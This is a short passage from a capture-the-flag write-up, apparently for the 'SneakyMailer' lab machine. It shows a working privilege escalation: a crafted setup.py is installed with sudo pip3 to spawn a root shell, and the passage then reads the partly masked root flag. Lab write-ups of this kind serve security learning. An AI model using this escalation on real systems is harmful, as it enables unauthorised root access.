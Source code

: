 #### Exploiting sudo privileges - pip

Now that we have our privilege escalation vector, we can simply follow the gtfobins article and get a shell as root.

```bash
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo pip3 install $TF
Processing /tmp/tmp.4tVzKeHbXl
# id                
uid=0(root) gid=0(root) groups=0(root)
```

Now that we have a shell as root, we can root.txt.

```bash
# cat /root/root.txt
0ee40***************************
```